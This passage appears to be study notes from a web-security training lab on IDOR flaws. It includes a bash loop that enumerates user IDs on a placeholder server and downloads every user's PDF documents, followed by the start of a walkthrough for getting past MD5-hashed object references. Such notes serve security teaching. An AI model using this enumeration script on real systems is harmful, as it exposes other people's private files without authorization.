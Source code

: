 This confirms an IDOR — the uid parameter controls which user’s files are shown, with no back-end checks.

**Mass Enumeration**

Manually checking `uid=3`, `uid=4`, etc. is slow.
Instead, we can automate using curl + grep, a for loop, or tools like Burp Intruder/ZAP Fuzzer.

**Finding document links for a single UID:**

`curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"`

`/documents/Invoice_3_06_2020.pdf`
`/documents/Report_3_01_2020.pdf`

**Automating with Bash**

<pre>#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link
    done
done</pre>

This loops through UIDs 1–10, finds PDF links, and downloads them — mass-exploiting the IDOR.

# Bypassing Encoded References

Sometimes, object references in an IDOR are encoded or hashed, making enumeration harder — but not impossible.

Example: Employee Contracts

**In the Employee Manager app:**

`http://SERVER_IP:PORT/contracts.php`

Clicking Employment_contract.pdf sends a POST request to:

<pre>/download.php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b</pre>

The contract parameter is an MD5 hash — we can’t directly decode it.

**Step 1 – Trying to Guess the Hash**

We try hashing common values (UID, username, filename):

`echo -n 1 | md5sum`

Result doesn’t match.
The value could be more complex (e.g., combined fields), so guessing would be hard.

**Step 2 – Discovering the Function**

Inspecting the page source reveals:

`javascript:downloadContract('1')`
